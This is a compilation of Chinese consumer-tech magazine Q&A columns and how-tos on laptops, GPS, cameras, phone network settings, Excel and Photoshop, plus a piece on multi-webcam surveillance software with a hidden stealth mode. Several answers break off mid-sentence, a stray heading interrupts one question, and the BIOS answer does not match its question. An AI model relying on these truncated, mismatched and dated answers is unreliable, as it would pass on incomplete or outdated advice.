问：我的笔记本电脑是华硕A8系列，最近系统遇到一些问题，开机后按住F9键想要还原默认的操作系统，但却没有任何反应。不久前还刚刚使用过一键还原功能，所以电脑本身应该没有问题。请问遇到这种情况要如何处理呢？

答：出现这种无法启动“系统还原功能”的问题，多数是因为隐藏分区受到病毒破坏或者用户使用分区软件时误操作导致隐藏分区受损所致。建议你将笔记本电脑就近送到华硕的售后服务中心，由工作人员为你重建隐藏分区；由于软件故障不属于保修范围，所以你可能要支付一定的维修费用。

### 笔记本电脑加内存后听音乐死机

问：我购买了一台华硕A823JR笔记本电脑，原配的512MB内存太小，我就加钱在经销商那里换了一条1GB的金士顿内存。事后在用“千千静听”软件播放音乐的时候经常出现蓝屏死机的问题，系统提示0X000000F4（0X85972D'A0......） beginning dump of physical memory”，请问这是不是内存出现了问题，难道买到了假货？

答：从市场上来看，假冒金士顿品牌的内存数量非常多，不过多集中

### ASUS笔记本电脑驱动程序丢失了

问：我的笔记本电脑是华硕A8系列，最近重装系统之后就看到设备管理器里面有一个USB 2.0的驱动没有安装，但是随笔记本电脑附送的光盘里面又找不到驱动程序，请问我该怎么办呢？

答：你可以到ASUS的官方网站上寻找对应的笔记本型号，然后再到驱动列表中找出你所需要的驱动，这种方法适合有一定驱动安装经验的用户。也可以安装华硕的“自动导览精灵”插件，这个小工具会给出当前设备所需的驱动，并引导用户前往对应的页面下载，非常适合刚接触电脑的新手使用。需要注意的是，“自动导览精灵”只能使用在基于华硕主板/笔记本电脑的产品上。

### 笔记本电脑的显卡驱动丢失了

问：我的笔记本电脑使用的是NVIDIA GeForce 8600M GS独立显卡，看到NVIDIA公司经常升级驱动程序来改善对游戏的兼容性和不断优化对新游戏的支持，我也很想升级自己的显卡驱动程序。但是遇到一个难题：我到网上下载了很多Force Ware的驱动程序，但是安装时却提示“无法找到任何驱动与设备兼容”，偶尔找到一个能用的却版本非常老，请问笔记本的显卡驱动哪里去找？

答：ForceWare驱动程序只是针对台式机的显卡驱动程序，用在笔记本电脑上的移动显示芯片与台式机差异非常大，而且每家笔记本电脑厂商都会有自己的—些设计（如供电电路等等）在里面，这种情况就造成了公版的显卡驱动程序通常无法安装在笔记本电脑上面。笔记本电脑用户只有到制造商的主页上寻找自己的机型

### 笔记本电脑增加新内存烧坏老内存

问：我的笔记本电脑是三星Q45-AV01，原配内存是一条三星的1GB DDR2 667内存，在购买时我又增加了一条1GB的Kingston DDR2 667内存。刚开始使用一切正常，2个月后电脑无法启动，送到售后服务点维修人员称原装内存烧毁，是因为我私自更换配件造成的。虽然事后维修人员帮忙更换了一条，但自行更换配件是否真有他们说的那样严重，如果日后我还想升级其他配件应该怎么办？

答：自己更换笔记本电脑的配件并没有那么严重。造成内存损坏的原因有很多，诸如安装不正确、电脑内混入金属异物以及运输过程中内存条松动等等。考虑到很多普通用户对电脑不是很了解，多数厂家（及其下属维修站）都不建议用户自己更换零配件，而且零配件以及各种增值服务是很多维修站的经济来源。如果你对电脑非常了解，你可以自行更换诸如内存、硬盘等零配件（多数笔记本电脑都有这样方便更换零配件的设计，而且大部分维修站不会因此与用户刻意纠缠，不过值得注意的是最好保留原厂配件，以备不时之需）；但是不要尝试打开电脑机箱，这样很可能失去质保。

### 笔记本电脑标称最大内存与官方数据不符

问：我的笔记本电脑是华硕A6Jc，到Intel官方网站上看到945PM芯片组最高支持2条共4GB内存；但是在华硕的介绍中，却只能支持到2条共2GB内存。现在内存条这么便宜，我能不能插上两根单条2GB的内存使用呢？

答：只要芯片组支持，问题都不大。但是仍然建议你带上笔记本电脑一起去购买，如果发现不兼容的问题也好当场处理。需要注意的是，普通的32位操作系统只能够使用到3.2GB左右的内存；如果要使用到全部的容量，必须安装64位操作系统。而且就现阶段的应用而言，使用到2GB以上内存的机会非常少，“4GB”更多的时候是一个噱头。

### 笔记本上宽网时MAC地址被锁定

问：我最近升级了电信的“宽带2代”，却发现不能像以前那样使用路由器共享上网了，而且好像还被锁定了MAC（不接路由器也是笔记本可以上网，但台式机不行）。现在我要怎么办呢？

答：针对这种情况，可以将笔记本电脑的MAC地址绑定给路由器。首先打开笔记本电脑的网络属性，记录下笔记本电脑网卡的12位MAC地址（例如“11-22-33-44-55-66”）；打开路由器的MAC设置界面，将刚才记录下的地址输入路由器，然后继续使用路由器拨号即可。

### 笔记本电脑玩《魔兽争霸Ⅲ》老是死机

问：我购买了一台Acer 4710ZG笔记本电脑，配置是CPU Core Duo T2130、512MB内存、120GB硬盘、14.1英寸屏幕以及ATI Mobility Radeon HD 2300独立显卡。玩《魔兽争霸Ⅲ》的时候经常无预兆性地蓝屏，不知道这个问题该如何解决？

答：从《魔兽争霸Ⅲ》的硬件配置要求来看，你的笔记本电脑已经达到了要求，因内存偏小建议使用Windows XP操作系统。至于频繁发生蓝屏死机故障则有两种可能：首先是笔记本电脑的发热量过大，硬件过热进入自我保护状态，导致蓝屏重启；其次则是软件兼容性问题，请确保必要的驱动程序和补丁都已经安装，游戏程序干净没有被修改过。前者可以通过购买散热底座来帮助笔记本电脑散热，后者则可以重新安装操作系统与游戏程序来解决。

### 笔记本电脑找不到硬盘

问：我的笔记本电脑是华硕Z92Q55JEDR，有时系统会提示找不到硬盘，但有时却又正常了。请问这是怎么回事？我

## 硬件故障一把抓

要如何处理是好呢？

答：出现这种故障多半是硬盘与主板接触不良所致，最大的可能是硬盘的数据接口被氧化。首先应该关闭系统，取下电源适配器与电池模块，然后打开硬盘仓并检查接口有没有明显氧化的痕迹，如果有可以用医用棉球蘸取少量酒精轻轻擦拭接口处的针脚。将硬盘装回去，如果系统能够正常找到硬盘则说明故障已经解决；反之，则可能是硬盘本身存在安全隐患，建议立即备份数据并送到客服中心处理（现在硬盘一般都有三年左右的保修期，超出保修期后可以自行更换同接口产品）。

### 笔记本电脑用PCMCIA网卡还是USB网卡好

问：我使用的是一台康柏自由人的老电脑。家里刚购买了一台无线路由器，我想把老笔记本电脑也连在网络上，但是在选择无线网卡的时候犯难了。请问笔记本电脑搭配PCMCIA接口的网卡和USB接口的网卡哪个更好一些呢？

答：从本质上来说二者并没有明显的好坏之分。从使用效果上来说，USB网卡的灵活性更大一些，除了与笔记本电脑配套使用之外，还可以用在台式机上面。但是USB网卡的发热问题一直比较严重，如果处理不好长期使用时会非常烫手，甚至影响使用效果。很多笔记本用户都倾向于PCMCIA网卡，这类产品不少还带有独立的小天线，有利于提高信号接收强度，而且现在多数笔记本电脑的PCMCIA接口都是闲置的，使用它不会挤占笔记本电脑并不富裕的USB接口。

### 笔记本电脑存在键位冲突问题

问：我是一名网络游戏玩家，经常上网与朋友们玩一些休闲游戏。最近想购买一台笔记本电脑来用，配置方面并没有太多要求，只是不知道笔记本电脑是否存在键位冲突的问题，如何来测试键位冲突呢？

答：虽然零售市场上有很多“7键不冲突”、“9键不冲突”的键盘出售，但是在笔记本电脑上，多数厂商还没有意识到这个问题。由于按键编码规则的局限，现阶段完全避免键位冲突问题是不太现实的，只能通过键位编码的调整来尽量避免特定按键的冲突。你可以使用《KeyboardTest》这款软件来检测你所购买的笔记本电脑是否存在冲突问题，按下特定的组合键之后，对应的键区颜色都会变绿，如果有的按键出现红色，则表明存在按键冲突。我们建议你在购买笔记本电脑之后额外选购一块USB接口的键盘，专门作为游戏之用，既解决了键位冲突的问题又可以保护笔记本电脑自带的键盘。

### 到哪里去找笔记本电脑的BIOS升级文件

问：我现在用的是一台TCL T51笔记本电脑，开始时并没有在意这台电脑的BIOS，最近发现BIOS选项真的少得可怜。听说用BIOS厂商的通用刷新程序就可以刷BIOS，但我找到TCL官方最新的BIOS ROM还是07年3月份的。请问哪里能够找到最新的BIOS升级文件？

答：笔记本电脑不同于台式机，绝大多数厂商都不允许用户私自对笔记本电脑进行超频。因为这样会导致发热量剧增、电池电流过载等严重的安全隐患，所以多数厂商都屏蔽了BIOS中的相关选项。再者，笔记本电脑相对封闭的特点也决定了BIOS的BUG会远远少于台式机主板&显卡，除非出现重大兼容性问题，厂商很少更新笔记本电脑的BIOS ROM。对于用户来讲，由于BIOS ROM都采用定制的方法来制作，所以绝对不能强行刷入其他机型的BIOS，那样做的话会直接损坏笔记本电脑。

### 笔记本电脑CPU总是低频率运行

问：我使用的是一台清华同方X500-08笔记本电脑，操作系统是Windows Vista Home Premium。在玩游戏、看碟或者运行其他程序时，CPU的频率只有0.8GHz左右（TL-56处理器标称1.8GHz）。请问如何解决这个问题？

答：AMD的炫龙TL-56双核处理器支持PowerNow!节能技术，在运行过程中会动态调节处理器的电压和频率。当系统认为处理器没有必要工作在高频率下时，就会自动降低处理器的工作电压和主频，你说的情况就属于这类。不知道你是在哪里看到“0.8GHz”这个数据的，很多程序（包括部分游戏在内）在最小化窗口之后，会自动转让出CPU的资源，所以切换游戏窗口查看处理器频率的方法是不准确的；最好用实时检测软件来监测，然后查看历史数据。如果想关闭PowerNow!也很简单，在“桌面属性→电源管理”里面选择“最大电池模式”，保存后退出即可。

### 笔记本电脑恢复途中突然断电

问：我使用的是一台Acer 4720G笔记本电脑（Windows VistaBasic系统，不带安装盘），最近在恢复系统的途中突然断电。再次开机后不能进入操作系统，只是在显示Acer图标后就停留在左上方闪烁的字符，无法执行任何操作，用Windows XP安装盘重新安装系统也不行，现在要怎么办呢？

答：在采用隐藏分区方式恢复系统的操作中，绝对不能中途断电，否则会使恢复失败甚至连隐藏分区也会受损。你说的情况就属于隐藏分区已经被损坏，现在你可以拿到厂商的售后服务机构重建隐藏分区，但由于重建隐藏分区属于软件故障，并不是厂商的保修范围，因此需要支付一定的费用。在执行恢复操作时正确的做法是，恢复前接上外接电源适配器，并等待电池充满后再执行进一步操作，这样即使遇到意外，双保险的供电也可以保证恢复操作正常完成。

### 笔记本电脑的HDMI接口是否有兼容性问题

问：我很想买一台DELL XPS 1530笔记本电脑，用它的HDMI接口来连接液晶电视。但是在网上看到很多关于HDMI兼容性的报道，让我又不敢轻易下手。请问现阶段HDMI接口的兼容问题是不是要好些了呢？

答：HDMI兼容性问题在早期比较普遍，现阶段已经比较少见了。而且HDMI兼容性的问题多集中在消费电子领域（CE）的平板电视上面，而在IT领域中产品之间的兼容性相对而言更好一些。到目前为止，大多数产品都可以良好支持标准的720p、1080i/p信号，少数平板电视对一些非标准分辨率的信号源，诸如1366×768等的支持就不是很好（虽然这是很多平板电视的最佳分辨率）。如果你...想购买一台带HDMI接口的笔记本电脑，那么在输出的时候最好能够使用电视机能够良好支持的分辨率格式，当然有机会的话最好能够先试一下，然后再决定是否购买。

## 笔记本电脑无法识别外设

问：我使用的笔记本电脑是HP 3159，机身只有2个USB接口，所以一直以来都是用随机附送的USB Hub来连接键盘、鼠标以及散热底座。但最近USB Hub连接闪盘、移动硬盘时不能被正确识别，散热器也不工作，而外接键盘和鼠标却可以使用，我换了一个杂牌USB Hub之后故障依旧，这要怎么办呢？
答：这是一个常见问题。标准USB设备接口只能提供+5V、500mA的供电能力，部分主板会使用加强供电的设计，将电流提高到800mA甚至1A。但这并不意味着可以无限制地增加USB设备数量，当USB设备过多时就会出现电涌（通常电脑会提示USB接口电流超出供电范围，但也有时候没有提示），甚至烧毁USB接口。你说的情况可能就是USB接口出现了问题，所以无法接驳需要大电流工作的设备。建议你选择带外接变压器的USB Hub，来弥补主板供电不足的问题。除此之外，建议你重新安装操作系统试试看，有时候操作系统的USB配置文件出错也会出现部分设备识别异常的问题。

## 笔记本电脑平时需不需要取下电池呢

问：我使用的是一台SONY FZ25的笔记本电脑，我95%的时间都插着外接电源适配器，感觉这样做对电池的寿命非常不利，如果把电池取下来是不是更好一些呢？另外一个问题，如果我只用电池的话这台笔记本坚持不到一小时就没电了，不知道这种情况正常吗？
答：第一个问题，你没有必要把电池取下来。因为现在笔记本电脑的充电电路都非常完善，如果电池的剩余电量高于一个数值（比方说75%），充电电路不会对电池进行充电，这样可以起到保护电池寿命的作用；所以即便长时间接驳外接适配器，也不需要取下电池，但是要注意最好每半个月给电池充放电一次，以保证电池的活性。第二个问题，笔记本电脑的续航能力取决于具体的应用环境和用户的使用习惯，如果你一直玩3D游戏，肯定要比浏览网页更费电。你这台电脑的配置较为高端，所以实际使用时间较其他机型要短一些；但如果笔记本电脑只是进行上网浏览、聊天、看DVD碟片等中低负载的应用，续航时间正常情况下不应该低于1个小时。

## 笔记本电池彻底没电了怎么办

问：我使用的HP Compaq EVO N610v笔记本电脑已经有半年的时间没有用了，最近拿出来后发现不能开机，用万用表测量电池已经彻底没电了。现在有什么解决办法吗？
答：首先建议你尝试一下激活锂电池，具体办法是：将笔记本电脑接上外接电源适配器，给电池充电，完成后再放电；如此反复几次之后，如果电量依然没有起色，则说明电池的电芯已经老化。此时你面临两种选择，其一是联系当地的HP经销商，咨询他们有没有同型号的电池仍在销售；其二则是到电脑城，请相关人员为你更换电芯。前者的价格较贵，但质量和售后有保障；后者要便宜一些，适合资金紧张的用户。

## “潜望式”和“伸缩式”相机镜头哪个好

问：我最近想购买一款数码相机，本来看上了SONY的T2，但是有些朋友建议我说潜望式镜头的成像质量不如伸缩式镜头。请问有这种说法吗？
答：经过反射之后，潜望式镜头对光的损失量更大一些，因此对成像质量会有一定的影响。不过对于普通用户来说，并没有想象中那般严重。很多人认为潜望式镜头的光圈等参数要小一些，但事实上使用潜望式设计相机在各项参数上并不落后；而且潜望式设计的机械部分完全安置在机身内部，可以起到很好的保护作用，与此同时又可以明显降低机身的厚度，一举两得。现在很多超轻薄相机都是用潜望式设计，这种技术已经非常成熟了，购买时无需担心。

## 如何知道相机已经拍摄了多少张照片

问：最近想入手一台二手单反相机，有些朋友介绍说相机的机械快门有使用次数限制，是否真有此事？还有如何查看相机已经拍摄了多少张照片呢？
答：确有此事，大部分（单反相机的）机械快门都标称4～6万次使用寿命。当接近设计使用寿命时，并不意味着用户的相机就不能用了，而是说机械快门的精度将会逐渐下降，出现故障的几率也会增加。对于多数用户而言，即便每天按动30次快门，也可以使用5年以上，所以不必为此担心（更何况还可以更换机械快门）。数码相机拍摄的照片上都会附有高级Exif信息，你可以利用Exif信息查看软件（例如：Opanda IExif 浏览器等），直接从照片信息中读取快门释放次数。同时，不要盲目相信相片的编码序号，这个数据是可以被归零的。

## 摄像头驱动程序丢失了

问：朋友送给我一个摄像头，但是重装系统之后驱动程序找不到了，由于是杂牌摄像头在网上也很难找到匹配的型号，现在很多视频应用都不能用了。我该怎么办呢？
答：市面上的多数摄像头产品都在使用中星微（Vimicro）的解决方案，你可以使用他们提供的芯片检测工具来自动识别当前芯片的型号，这个小工具还会引导你去找到合适的驱动程序（注意：此程序只针对中星微芯片的摄像头，对于使用其他芯片的摄像头产品无效）。除此之外，你还可以到网上去找一些万能摄像头驱动程序包，这是一些爱好者将市面上主流的驱动程序打包放在一起，然后用户直接安装之后就可以使用了。（软件下载地址：http://www.vimicro.com/，用户可以到Download页面中寻找）

## 家用投影机选“普屏”还是“宽屏”

问：现在家用投影机的价格不断下降，很多品牌已经降到了3999、4999的水平，我很想最近就出手。有些朋友建议说现在的投影机产品大多数都是800×600分辨率的，不适合家用。请问是这样的吗？
答：大多数人更倾向于16:9宽屏幕的投影机产品，这是因为很多电影都是宽屏幕比例的，而4:3（5:4）的投影机在使用时有效像素的利用率非常低。按照分辨率规格，宽屏投影机可以分为480p（854×480）、720p（1280×720）以及1080p（1920×1080）三个档次。其中480p的投影机在市场上的数量较少，如明基W100等，价格与普通入门级800×600投影机相当；1080p产品普遍价格较高（多在2万元以上），不适合普通家庭用户；而最合适的720p产品价格从7000元～20000元不等，在目前来看是最值得用户考虑的产品。当然，选择投影机还会受到很多因素的制约，如客厅的投影距离、幕布大小、环境明亮程度等等，最重要的是你拿来做么用途；如果不是急着尝鲜的话，建议你再等一段时间，到720p市场成熟之后再下手不晚。

## GPS到了国外还能用吗

问：最近看到很多同事都购买了GPS卫星定位系统，他们都说非常好用，由于工作关系我经常需要到国外出差。请问你们介绍的GPS产品在国外还能够收到信号吗？在其他国家能不能正常使用？
答：GPS设备在工作时只是单向接收GPS卫星的信号，而现在轨道上运转的GPS卫星有24颗，可以实现全球无缝隙覆盖。所以GPS设备在国外也可以正常接收定位信号，实现经纬度以及高度定位。但作为民用来说，GPS的实用性很大程度上取决于其地图资源，市面上绝大多数产品都只内置了国内地图，如果要在国外使用的话就需要有当地的地图库，很多独立式GPS（包括车载GPS）升级不便，可以直接排除。建议你使用智能手机/PDA+蓝牙模块的方式，蓝牙模块可以接收GPS定位信号，而PDA可以安装当地的地图程序包（需要另外购买）。此外还有一些带GPS功能的手机，如Nokia N95提供了在线地图更新功能，当你来到一个陌生国家的时候可以在线购买当地的地图数据。

## GPS多长时间找到卫星才算正常

问：据说GPS就算冷启动时间也都不超过1分钟，但我的GPS手机每次启动（到开始导航）却需要几分钟时间，这种情况正常吗？一般GPS手机的启动时间有多长？
答：厂商标注的这个时间大都是芯片（如瑟孚3代）从加电到接收到卫星信号并开始工作的理想时间。而事实上情况要复杂很多，GPS信号很容易受到云层以及周边杂波信号的干扰（在城市中尤为明显）；如果此次开机与上次关机时地理位置发生很大的变化，导航软件会等待继续确认；手机（PDA）设备的处理能力不够，载入导航软件偏慢等等这些都会拖慢设备的启动时间。

## GPS在使用时路线总是“跳来跳去”

问：今年单位统一采购了几台GPS设备给车队的司机，据他们称在行车途中偶尔会出现汽车在几条道路上“跳来跳去”的问题，不知道这个算不算质量问题呢？如果不是，有没有办法可以解决？
答：这是由于GPS定位精度以及卫星信号不稳定造成的，民用级GPS产品的定位精度在10米左右，存在一定的误差；而且在城市中使用GPS时经常会发现信号被多次反射（接收）的问题，所以GPS上显示的本车位置会在临近道路之间跳转。造成跳转的另一个原因就是地图软件的“锁路”功能，也就是说软件会强行把坐标定位在临近的道路上，而不是GPS接收到的真实坐标；如果软件有“手持模式”，建议打开，这样就可以避免一些无所谓的跳转问题。最后一点，就是事先规划好行车路线，这样GPS多数时候就会按照指定的路线来移动；如果没有行车路线，GPS发生跳转的机会将大大增加。

## GPS的分辨率是不是越大越好？

问：最近想买一台GPS，发现大多数GPS设备都是320×240的分辨率（不管是2.6英寸或者3.6英寸的）。请问这么低的分辨率能够看清楚吗？GPS有没有一个“最佳分辨率”呢？
答：造成这种情况主要是两方面的原因，其一是很多GPS设备都使用Windows Mobile的内核（包括市面上很多GPS手机），320×240（QVGA）是这个操作系统的推荐分辨率；其二是GPS不同于电脑，在使用时用户经常用手指（或者触控笔）来操作，更高的分辨率和精度没有必要（也正因为这个原因，很多地图软件甚至不支持640×480的VGA分辨率）。所以无论是购买GPS手机或者独立式GPS，这个分辨率已经足够了。只有当使用大屏幕（>4英寸）时，QVGA分辨率才会出现明显的“颗粒块”。

## 如何在PPC上快速找到GPS的端口

问：单位上原有一台掌上电脑（PPC），最近添置了一个蓝牙GPS接收模块，但通过蓝牙配对之后，使用导航地图存在问题。在网上看到很多朋友说要调整GPS模块的COM通信端口，但是我怎样才能知道蓝牙模块在使用哪个COM端口？
答：现在Windows Mobile系统有很多这种GPS端口扫描软件，比如“GPS Viewer”软件。将软件解压到PPC任意目录下并启动程序，按照操作要求启动扫描程序，默认的端口传输速率是4800bps（可根据实际情况调整）；完成扫描之后，程序会返回扫描结果，你就可以知道GPS当前工作的端口了。除此之外GPS地图软件对通信端口也有要求，通常在地图软件的目录下会有一个CONFIG文件，打开即可看到这样一行数据“COMMPORT=COM4；BAUDRATE=4800”，前一句表示软件需要COM4端口进行通信，后一句则是通信带宽4800bps。请按照PPC说明书上的指示，调整对应的端口和带宽给软件使用即可。

## 小心 很多只眼睛在看着你

大部分的视频监视软件只能同时监控一个地方，要是有多个地方需要监控就无能为力。其实我们可以通过一款名为JaxCam的软件配合摄像头来实现，这款软件的最大特点就是最多可以支持9个摄像头，可以同时监控多个地点。

在启动JaxCam的时候会检测电脑上的所有摄像头，并将这些设备显示在主窗口的Channels面板的设备列表中。点击窗口底部控制栏上的Open all cameras按钮，开启所有的摄像头的监控视频，并将所有的监控画面显示在预览面板中。

一般电脑并没有9个以上的USB接口，那么我们可以在卖场里去购买一种简便的USB扩展器，大概在10块钱左右。

### 多摄像头支持

如果电脑中安装了多个摄像头，可以选中某一摄像头视频，利用窗口底部工具栏上的按钮，能实现录像、关闭、暂停、开启、停止、禁止/允许探测运动物体等功能（见图）。在SPEED微调栏上可以调整视频的播放速度，在ZOOM微调栏中能够调整播放的画面尺寸，点击窗口右上角的Stealth按钮，JaxCam会隐藏运行界面，按快捷键Ctrl+Alt+A键即可恢复。



### 设置多种视频格式

如果录制的时间比较长，可以在Source选项中设定对录制的视频进行设置，支持WMV、ASF、RM/RMVB等视频格式。选择体积较小的格式，录制再长时间也不用担心硬盘不够。

### 定时监控，可以更好掌握室内情况

这款软件提供了定时监控的功能，可以在指定的时间范围内进行视频录制。在Preference中选择Scheduler，然后在计划任务面板中点击Add按钮，打开定时任务设置窗口，在Task Name中输入任务名称，在Camera列表中选择合适的摄像头设备。

接着确定任务所属的日期范围，在From和To中设置起始/结束的时间，最后设置视频保存路径。到了指定的时间后，就开始自动录制。

### 脸部追踪，摄像头也行

高端的摄像头具备很多功能，利用这些功能可以很好地使用摄像头。但是对于那些低端的摄像头来说，可能本身的功能就不是很强大。但没有关系，可以利用一款名字为RobotCAM的软件，通过它可以给很普通的摄像头增加很多实用的功能，让你的摄像头变得智能起来。

在使用RobotCAM之前，需要去官网进行简单的注册，只需输入自己的邮箱和密码即可完成注册。注册网址 http://www.RobotCAM.cn

注册之后，就可以使用RobotCAM。RobotCAM运行后，主动和你的摄像头融为一体，将摄像头虚拟成为你一个会聊天的软件机器人。主界面是一个聊天窗口，控制摄像头就类似和好友聊天。

第一步：打开IM聊天软件，然后启动RobotCAM，接下来在RobotCAM主界面中点击人脸追踪按钮，就开始自动寻找人脸，找到人脸之后脸部被自动放大到屏幕中央。

第二步：再次点击人脸追踪按钮，则恢复原样。

除了上面的两个功能之外，RobotCAM还有很多实用功能，感兴趣的朋友不妨研究一下。利用RobotCAM会让你的摄像头拥有更多的功能，而不用再去羡慕别人那些高端的摄像头。

## 在Excel中将日期中的月和日补为两位

单位管档案的同事前来求助，说利用Excel保存的人事报表中的出生年月日和参加工作时间等列中的一位数的月和日都是一位，而这次上级主管部门要求报表统计规范为月和日必须为两位，要在一位数的月和日前边再补一个0，问有没有简便方法。

单击日期这列的列号字母选中这列，然后右键单击选中的日期这列，左键选择“设置单元格格式”。

在打开的“单元格格式”对话框中选择“数字”选项卡，然后在“分类”栏中先单击“日期”，接着再单击“自定义”，最后到右侧的“类型”框中把显示出的“yyyy-m-d”改为“yyyy-mm-dd”后点“确定”退出即可轻松搞定。

## 多次曝光打造超强“影分身”

不知道你是否看过《加勒比海盗3》，电影中有这样的场景，无数个杰克船长同时出现在甲板上，表情和动作各不相同，分不清哪个是本尊，哪个是克隆版。让人看得眼花缭乱，目不暇接。这些效果自然都是后期制作的功劳，那么如果我们这些普通人也想感受一下这样的效果该怎么办呢？

### 基本原理

在胶片时代，我们可以利用相机的多次曝光完成这一高难度的技巧。这就需要摄影师有足够的把握能力，每个姿势和位置都要把握到位，否则就会前功尽弃。现在，都已经是数码时代了，数码图片的便利性充分展现，我们只需要利用Photoshop，就可以完成多次曝光的效果，而且更容易把握照片的细节。

### 前期素材拍摄

在拍摄阶段，我们也需要注意很多问题，并不是所有的后期处理都可以弥补前期拍摄的不足的。由于后期需要在同一场景中，拼接两个以上的同一人物，所以保持拍摄场景不变非常重要。这样不仅可以焦距、背景相同，而且给后期拼接提供了很大的便利，我们只需要将背景完美重合，就可以轻松对主体进行拼接。如果是拍摄静态主体进行后期拼接的，那么三脚架就非常有必要了。因为可能每一个主体位置的调整都需要很长时间，三脚架可以确保拍摄位置和角度都一致。如果拍摄角度变化了，就会给后期拼接带来很多问题，最大的问题就是透视角度不一致，进行调整的话，往往会把拍摄对象的比例破坏。但如果是利用连拍进行后期拼接，那么在较短的时间内就可以完成一系列影像的拍摄，三脚架也可以不用。但为了追求更出色的效果，还是建议使用一下三脚架，或者用其他支撑物代替。同一画面中出现相同主体本来是一个非常有创意的想法，因此主体的位置和姿势都要注意有变化，否则整个画面会显得很单调。比如拍摄静态的动作，人物可以有坐、站、蹲、跳等不同动作，这样集中在一张照片上，就会显得错落有致。而拍摄连续的一系列照片，则以动作连贯性为目标，这样拼接在一张照片上就更有连贯性，也更富有动感。

### 保持曝光值一致

最好在测光后使用手动曝光。因为随着主体位置变化，自动测光得到的曝光值可能会有变化，因此针对明暗部分别测光后，取平均值，进行手动曝光。这样的照片在后期色调上，才会更为统一。

### PS后期实现“多重曝光”

前期的拍摄告一段落，接下来我们就需要转入后期工作阶段了。后期的工作虽然并不难，但需要细致。否则，就会使得照片拼接的痕迹太重。首先可以看到，我们已经拍摄了一系列，同一场景，同一人物的照片（见图1）。当然，这是采用连拍完成的。在Photoshop中打开这些照片，按照前后次序进行叠放。





接着，合并图层，对图层进行细节方面的调整。可以根据自己的喜好，调整曲线、色阶等，对图片色彩、对比度等进行调整。最后，我们就获得了一张完美的“多重曝光”照片，颇具动感，使静态的图片也充分表达出了动态的感觉。对于没有多次曝光功能的相机来说，这样的操作也能轻松完成。是不是也很简单？如果你有更好的创意，还可以通过这一方法，创作出更多有意思的照片来。

## 各系统手机上网设置详解

现在的手机几乎都有了网络功能，而且，随着3G时代的来临，我们手中的小家伙也会像宽带提速一样变得飞快。不过根据调查，目前真正使用手机上网的用户寥寥无几。是不是觉得费用贵？这肯定是一方面原因，但最重要的是许多人不会用手机上网。有的是因为手机上网设置被更改，有的则因为买的是水货手机。

### 非智能手机的上网设置

目前使用非智能手机的用户占有很大的比例，这些用户也有很多人不会上网的设置，所以小编首先为大家列出非智能手机的详细上网设置。让大家可以轻松地上网。不过在这里需要说明的是，手机上网设置跟移动、联通这些没有太大的关系，同一款手机设置方式也是一样的，只是不同机型之间有较大区别。不过这也没关系，有的选项没有就不用管它了。

#### GPRS设置：

第一步：进入主菜单后，选择“手机设定→连接→互联网设定→互联网模式→添加模式”，以添加新的连接方式。

第二步：之后系统将会提示选择使用哪个数据账户，如果机身上已经预设有的话，直接选择数据账户就可以了；如果机身没有预设或者是不确定是否正确的话，则需要新建一个数据账户。在新建账户时，账户名称可以随意填写、账户类型则选择GPRS数据、接着在APN栏中填上cmwap就可以了，用户名及密码这两项不需要去管他。

第三步：填写完数据账户之后，将进入连接模式的设置。连接模式的的名称同样可以随意填写，然后再选择相应的数据账户、互联网模式，填写上网关地址以及主页就可以了，用户名与密码这两项同样留空。连接方式、互联网模式及主页地址一定要正确填写正确，不然的话将无法正常使用。

第四步：在完成连接模式的建立之后，返回“互联网模式”中，选择刚建立好的连接模式之后，就可以无忧无虑地用手机上网冲浪了，但在这之前还得必须确保所使用的手机卡已经开通GPRS功能哦。

#### 彩信设置：

让我们继续来看看MMS（彩信）的设置，MMS的设置其实与WAP的设置几乎一模一样，选择同样的连接方式、同样的互联网模式、再填上相同的网关地址，只需要将主页更改成“http://mmsc.monternet.com”就可以了。编辑好了彩信的连接模式，跟着就要进入信息设定界面，选择进入彩信的设置，在彩信设置栏目下，将互联网模式设定为刚刚建立的连接模式就即可，整个WAP及MMS的网络设置也就完成了。

### Linux操作系统上网设置

#### 网络连接设置（APN设置）：

在“主菜单→设置→数据网络”依次添加2个连接（其他连接可以删除），

1.  移动梦网 - 用于手机浏览器上网，及收发彩信。
配置名称：移动梦网
GPRS设置：APN: cmwap; 用户名，密码等均不设；其他均默认。
CSD设置：拨号：17266；用户名、密码、重输密码：wap；其他均默认。

2.  连接互联网 - 用于手机内置的电子邮件功能收发邮件。
配置名称：连接互联网
GPRS设置：APN: cmnet; 用户名，密码等均不设；其他均默认。
CSD设置：拨号：17201；用户名、密码、重输密码：172；其他均默认

在以上2个连接添加完成后，点移动梦网打开，点右下角图标，选设为默认。

#### 浏览器设置（WAP上网）:

打开浏览器，点右下角图标，选“设置→配置文件”，添加配置名称：移动梦网；主网关IP: 10.0.0.172；端口：9201；次网关IP、端口为默认；主页：http://wap.joyes.com/；网络连接：选移动梦网。并将其设为默认连接点。退出浏览器后，重新打开，可以上网。

#### 彩信设置：

进入“信息→服务设置→彩信”：
有效期限：无期限；最大发送大小：50K；自动下载，除漫游外，显示标志；发送报告均打钩，除多于选50KB或100KB。
点击“默认设置”，右下角“新建”：
设置名称：移动彩信；彩信中心（MMSC）：http://mmsc.monternet.com/；网络设置：选移动梦网；WAP网关IP: 10.0.0.172；连接安全：关，连接类型：有连接。完成后，点住移动彩信，选设为“默认”。

### Symbian S60系统上网设定

第一步：进入工具点击设置，再连接设置，再点击接入点，然后输入"中国移动 WAP GPRS"确定进去。

第二步：连接名称已有，就是“中国移动 WAP GPRS”，在下面的数据承载方式中选择“分组数据”（如果有GPRS就选择GPRS），接入点名称输入CMWAP，用户名中输入“无”，提示密码“否”，密码“无”，鉴定选择“安全”，主页输入http://mmsc.monternet.com/。

第三步：选择连接名称选择高级设置进入，其余都不管，只把代理服务器地址设置为“10.0.0.172”，再把端口号设置为“80”，上面工作完毕后，重启机器。

## 不插值、不骗人，百万像素照出千万效果

2003年800万像素机型的出现，宣布数码相机进入了高像素时代。两年后，数码相机的千万像素时代便来临了。而今无论卡片还是单反，千万像素俨然成为了标配。而N年前的老相机像素只有300万，拍的照片在LCD上看还行，但要把照片冲印到大尺寸的相纸上，分辨率就严重不够。这时非常羡慕那些千万像素的相机。其实，老相机同样可以“拍摄”出千万像素的照片来！

### 首先，拍摄4张相互衔接的照片

确定了要拍摄的景物后，把景物划分成多个区域，分别用相机进行拍摄。这里以拍摄河边的风景为例，分成4个区域拍摄。拍摄的4张图片之间一定要有一些重叠的部分，比如10%～15%的重叠，否则无法拼接。如果是分成6张或者8张，那么相邻的照片之间一定要有衔接，以此类推。

